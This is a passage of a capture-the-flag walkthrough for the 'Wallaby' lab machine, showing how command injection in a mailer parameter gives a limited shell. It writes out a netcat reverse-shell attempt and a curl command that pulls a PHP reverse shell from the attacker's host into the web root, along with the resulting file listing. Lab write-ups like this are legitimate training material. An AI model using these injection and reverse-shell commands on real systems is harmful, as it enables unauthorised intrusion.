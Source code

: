 ## Getting limited shell

Did you figure it out?  
  
**index.php?page=mailer** is the one to check to the comments found in the source.  
  

    
    
    <h2 style='color:blue;'>Coming Soon guys!</h2>  
        <!--a href='/?page=mailer&mail=mail wallaby "message goes here"'><button type='button'>Sendmail</button-->  
        <!--Better finish implementing this so abatchy  
     can send me all his loser complaints!-->  
    

Is the mail functionality implemented? Probably not, but the way the second
parameter is sent looks to be passed directly into some interpreter.  

  * **/index.php?page=mailer&amp;mail=whoami **returns "www-data"! Let's try to start a listener on our attacking machine and get a reverse shell!

  * **index.php?page=mailer&amp;mail=nc -nv 192.168.1.67 -e /bin/bash **didn't work, Wallaby was again one step ahead of us.  

#### "How you gonna use netcat so obviously. Cmon man. This is all in the
logs."

After running a few commands I noticed that** netcat** exists under
/bin/netcat but doesn't have the -e option available. That is not an issue
thanks to [this](https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e
-no-problem). But I prefer using the php reverse shell script, which can be
found [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).  
  
Save it as .txt so it doesn't get interpreted and store it on the victim's
machine.  
  

    
    
    http://192.168.1.68:60080/index.php?page=mailer&mail=curl http://192.168.1.67/4444.txt > shell.php; chmod 777 shell.php; ls -al  
    

  

    
    
    total 104  
    drwxr-xr-x 3 www-data www-data  4096 Jan  2 22:16 .  
    drwxr-xr-x 3 root     root      4096 Dec 16 21:31 ..  
    -rw-r--r-- 1 root     root     15953 Aug 11  2015 eye.jpg  
    -rw-r--r-- 1 root     root      3639 Dec 27 19:19 index.php  
    drwxr-xr-x 2 root     root      4096 Dec 27 12:25 s13!34g$3FVA5e@ed  
    -rw-r--r-- 1 root     root     57626 Dec 27 12:24 sec.png  
    -rwxrwxrwx 1 www-data www-data  5494 Jan  2 22:16 shell.php  
    -rw-r--r-- 1 www-data www-data     8 Jan  2 21:07 uname.txt  
    

  